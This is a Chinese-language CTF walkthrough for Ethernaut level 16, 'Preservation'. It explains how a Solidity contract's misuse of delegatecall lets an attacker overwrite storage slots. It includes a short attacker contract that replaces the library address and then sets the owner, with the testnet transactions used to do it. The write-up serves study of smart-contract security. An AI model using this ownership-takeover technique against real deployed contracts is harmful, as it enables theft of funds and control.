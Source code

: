 # Level 16: Preservation

## 1. 问题

有一个合约 `Preservation` , 这个合约 **原本** 想用2个 lib 库来分别存储一个 时间(timestamp)。他的实现有问题，想让你利用他的漏洞，把这个合约的 `owner` 改成自己。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```


## 2. 解法

原始合约的 bug 在于错误使用了 `delegatecall`。正常调用其他合约时，应该使用 `call`, 这样 `LibraryContract` 内的 `storedTime` 就会改为输入值。

当前合约使用 `delegatecall`, 则是相当于把这个代码拿到自己本地执行，修改的是自己合约内 `storage` 的槽内的值。

我们的攻击思路为：首先调用 `setFirstTime` 或者 `setSecondTime`, 将 `Preservation` 合约中第一个槽位的值，也就是 `timeZone1Library` 的值改成我们自己的攻击合约。然后再调用一次 `setFirstTime` 合约，执行我们攻击合约内部的逻辑，并且我们的攻击合约里的 `setTime` 函数改成修改第三个槽位值为 `tx.origin`，从而达到我们的效果。

> [!TIP]
> 这里我们提供一个测试文件 [Level16.t.sol](../../test/level16/Level16_localTest.t.sol)
> 可以在提交之前进行本地调试，调试成功再在测试链上执行


1. 我们部署攻击合约, [部署交易](https://sepolia.etherscan.io/tx/0xfb94b76ab879626810d342eebaea5c7d9e16d8235c965eaeea256b6a0f631727) , 合约地址 [0xfb4a552417107cd1935d182c9832748da4510f9f](https://sepolia.etherscan.io/address/0xfb4a552417107cd1935d182c9832748da4510f9f)：

```solidity
contract HackPreservation {
    address public _placeholderTimezone1Library;
    address public _placeholderTimezone2Library;
    address public _placeholderOwner;

    constructor() {
    }
    
    function setTime(uint256 _time) public {
        // uint转换时截取低位
        _placeholderOwner = address(uint160(_time));
    }

}
```

2. 调用 `Preservation` 合约的 `setFirstTime` 接口，目标是将合约的地址值改成刚刚部署的 `HackPreservation` 合约的地址，所以我们需要指定传入的参数为合约地址转换成 `uint256`, [交易地址](https://sepolia.etherscan.io/tx/0x57244d7486e5c4fd8b725042471bce8b305f0c9c3a0924d1463590ef86365dfe)

![](../../resources/img/level16/addr2uint2562.png)

![](../../resources/img/level16/setFIrst12.png)

3. 此时我们查询可以确认，`timeZone1Library` 的值已经换成了我们刚刚部署的 `HackPreservation` 合约的地址：


![](../../resources/img/level16/new1Lib.png)


4. 次数我们再次调用 `Preservation` 合约的 `setFirstTime` 接口，实际会执行 `HackPreservation` 合约的 `setTime` 接口，这个函数里面会修改owner地址。注意此时的入参，需要填写我们发起的合约地址。[交易地址](https://sepolia.etherscan.io/tx/0xd5943ae17931f3ba68a67b785ed28c885631104df481cb996ce62b866bf36910)

![](../../resources/img/level16/setF2.png)

5. 此时我们查询，确认 `owner` 已经修改成我们要的地址了

![](../../resources/img/level16/newOwner.png)

6. 点击 `submit instance`， 提交通过！


<br/>
<br/>

| [⬅️ level15 Naught Coin](../level15_naughtcoin/README.md) | [level17 Recovery ➡️](../level17_recovery/README.md) |
|:------------------------------|--------------------------:|

